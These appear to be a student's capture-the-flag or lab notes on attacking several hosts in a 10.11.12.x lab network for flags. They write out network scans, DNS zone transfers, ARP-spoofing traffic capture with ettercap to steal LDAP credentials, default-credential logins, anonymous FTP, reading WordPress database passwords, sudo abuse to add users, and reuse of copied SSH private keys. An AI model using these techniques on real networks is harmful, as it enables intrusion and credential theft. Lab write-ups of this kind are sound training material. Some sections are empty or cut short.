





# Scanning

## Overall


```
sudo nmap -sn 10.11.12.0-100
```

## 10.11.12.6

FLAGS FOUND:
- LDAP service - shared directory (FLAG-6811)
- DIG txt (banner) grabbing (FLAG-6649)
- Network ettercap (FLAG-6986)
- LDAP service (FLAG-6659)

### General scanner


```
sudo nmap -sV 10.11.12.6
sudo nmap -sV -O 10.11.12.6
```


### Nmap scanning


### Dig


The command `dig axfr @10.11.12.6 vault.vinyl` initiates a DNS zone transfer request for the domain vault.vinyl using the AXFR protocol. This request is sent to the DNS server at IP address 10.11.12.6. The AXFR protocol is used to replicate DNS records across DNS servers, allowing for the efficient management of DNS zones without manual edits on multiple servers.

### nbts scan


### ldap scan

sudo nmap --script=ldap-rootdse 10.11.12.6 


```
sudo ettercap -T -i tap0 -M arp
/10.11.12.48/10.11.12.48/ -w x.pcap

//look for ed in wireshark + filter for ldap

//get the password

ldapsearch -H ldap10.11.12.6 -x -b
"DC=vault,DC=vinyl" -D "ed@vault.vinyl" -W | grep FLAG
```

### RPC scan

You get this folder, because you are talking to the NFS service.


### network traffic
```
sudo ettercap -T -i tap0 -M arp /10.11.12.6/10.11.12.48/ -w file.pcap

tcpdump -r file.pcap -A > file.txt

cat file.txt | grep FLAG
```


## 10.11.12.13

FLAGS FOUND:
- OPNsense access - default credentials (FLAG-1578)
- OPNsense secure shell access - 5569 port, same credentials, shell, get the files (FLAG-1807)

### General scan


OPNsense v2.4.0???


```
sudo nmap -sV 10.11.12.13
sudo nmap -sV -O 10.11.12.13
```

### NMAP 

Port 53 open, meaning we have a DNS server (domain)

Port 80 open, running OPNsense, meaning we can navigate there.


### Dig

dig any victim.com @10.11.12.13 - dig any victim.com @<DNS_IP>


### Website

If we try to navigate to `http://10.11.12.13`, we get prompted with a OPNsense login shell


To try and login, we can google the default credentials for the OPNsense


So if we try them, we can get in, and get to the main dashboard, and find a flag.


Also, it allows administration access on port 5569. This information can be found on System > Settings > Administration


Then, we can actually access the SSH on port 5569, with root:opnsense credentials, and get a flag.


## 10.11.12.28

## General scanning


```
sudo nmap -sV -O 10.11.12.28
```

```
1. sudo nmap 10.11.12.28 -sV -sC -oN 10.11.12.28.txt 2. Observe there it is a rdp
(Remote Desktop Protocol) 3. use the ed user with the credentials already found 4.
xfreerdp /u:ed /p:FLAG-6986 /v:10.11.12.28 5. Enter file system and open the
flag.txt FLAG-2638
```

## 10.11.12.53

## General scanning


```
sudo nmap -sV -O 10.11.12.53
```

## FLAGS FOUND:

- Robots.txt - opened website on port 80 and then navigated to robots.txt (FLAG-5794)
- FTP access anonymous, port 2121 - (FLAG-5405)
- Another directory file /var/www/html/flag cat flag/index.html (FLAG-5466)
- Configuration file wordpress (FLAG-5439)

## Website


## FTP

If you try to access the ftp via `ftp 10.11.12.53 2121`, then you can then authenticate as `anonymous` and then press enter to not enter a password. After that, you can do `ls`, and then see the `flag.txt`. Then you can do `get flag.txt`, and then on your host you can `cat flag.txt`, and you will be able to see the flag.

## SSH

You can read the information that is provided in the **cat /var/www/html/flag/index.html" and get the flag


It says that you could find it with DNS enumeration, but it does not help:

- dnsrecon 10.11.12.53

The server allows taylor to perform cat on /etc/passwd without the usage of sudo (bad permissions set on the /etc/passwd i guess)


The server allows the taylor user run some commands as root without the need for password:


It allows to create users and append them to the sudo group:


After that, we can login into the system using our new user (for example, serj:serafim)

We can also read the contents of other people directories (this is relatable for NSP miscellaneous).


Additionally, we can check the configuration files for wordpress, as this might give us insight up to where to look next:

```
cat /var/www/html/wordpress/wp-config.php
```



Where we can also find out the contents about the local database, as we might know that there is a mysql server running on the server. (password for database = Cdxv2a3gUkqf7G4 )

We can access the database:

```
mysql -h localhost -u wpuser -p wordpress_db + prompt for password will appear
``` 


Then we can execute commands:




## 10.11.12.75

## General scan




Runs Elasticsearch 1.1.1

```
sudo nmap -sV -O 10.11.12.75
```

## FLAGS FOUND:
- Find the elasticsearch indices (FLAG-7972)
- Reverse shell (FLAG-7189)


It allows us to look for available indices:



Then, you can look for indices, and inside there try to find the values:


You better look for **_cat OR _cluster OR _security if possible**


LHOSTS NEEDS TO BE ^ tap0 (the interface)


## 10.11.12.38

## General scanning


```
sudo nmap -sV -O 10.11.12.38
```

## FLAGS FOUND

- FLAG-3407 (found from the **.psql_history**)
- FLAG-3336 (found from the **.psql_history**)

## Steps


Contains reverse shell


Allows cat without sudo password. Another user available on the system - *taylor*


Allows access to *.bash_history*. Able to see what the user did.


Can see the pub key of ssh.


Can also read the private key, and copy both to our system. After that, can add the ssh keys to the ssh-agent on machine, and then try to access other ssh services. (permission on files is important!)


Can access via ssh the 10.11.12.53


Also allows to try and access the others history


Allows to execute *sudo cat /var/lib/postgresql/.psql_history* and get a look at what was done with databases and etc.


To find this file you can execute **ls** and get the contents of files. Hence you can find the file. 


## 10.11.12.48


# Better information

## 10.11.12.6

### NMAP

Do not forget to check all machines online if you know the netmask:

`sudo nmap -sn 10.11.12.0-100`

First lets check the version and services.

`sudo nmap -sV -O 10.11.12.6` (-sV for versions, -O for operating system)


Once we have that, we need to check what we can do.

### QUESTION 1

See the msrpc/rpcbind and etc? Also see the domain and other services like LDAP? Considering all of this, it is probably a domain controller. It can also have different shared folders for it.

`sudo showmount -e 10.11.12.6` (-e to show exports)

We get the /Data available to everyone


Then, mount the folder somewhere on your system

`sudo mount 10.11.12.6:/Data /mnt/shared_folder`

Then you get a flag from the shared folder.

### QUESTION 2

You see LDAP bullshit? There is a possibility that some stuff might be happening behind the scenes in the network.

There are quite some machines in the network.

We can check the traffic between the different targets 

`sudo ettercap -T -i tap0 -M arp /10.11.12.6/10.11.12.48/ -w file.pcap` (-T for text mode, -i select the interface, -M set the mode, then targets (like between which or towards which it is going), -w for output)

or another one can be used as `sudo ettercap -Tq -i tap0 -M arp:remote /10.11.12.48//` (this will however show only one flag)

Then after some time you got the capture

Use `tcpdump -r file.pcap -A > file.txt` (-A for print each packet in ASCII, -r probably for reading)

Then you can analyze the file with `cat file.txt | grep FLAG` and you should get at least one FLAG (FLAG-6986) which is also a password for LDAP (and also some other possible flags, like for FTP on another server, and another flag for another server)



### QUESTION 3

From previous question lets open the wireshark, open the .pcap file we got, then filter for `ldap` and then we can get some information with a user and its password being the flag.


We get user `ed@vault.vinyl` and password `FLAG-6986`

Now run the `ldapsearch -H ldap://10.11.12.6 -x -b "DC=vault,DC=vinyl" -D "ed@vault.vinyl" -W`

or you can run this `ldapsearch -x -H ldap://10.11.12.6:389 -D "ed@vault.vinyl" -w 'FLAG-6986' -b "dc=vault,dc=vinyl" "(&(objectclass=person))"` (or add also | grep FLAG at the end) (-x for simple authentication, -H for host, -D for user or distinguished name)


After that, you get quite some information that can be used. In this case you get information regarding users as well (like amelia@vault.vinyl). 

### QUESTION 4

We got ourself a user, and then we can check the SMB functions

`sudo smbclient -L 10.11.12.6 -U ed%FLAG-6986`

Then you will see some directories


Then you can run command to list the files:

`smbclient //10.11.12.6/Financial -U ed%FLAG-6986 -c "ls"`

Then you can run this type of command to get the file from a directory:

`smbclient //10.11.12.6/Financial -U ed%FLAG-6986 -c "get FLAG.txt"`

Then `cat FLAG.txt`


### QUESTION 5

Since this is a DNS Server, we can check for the DNS records and etc.

`dnsrecon -d vault.vinyl` (where you need to specify the domain name (in this case it is vault.vinyl anyway))

or you can run `dig axfr @10.11.12.6 vault.vinyl`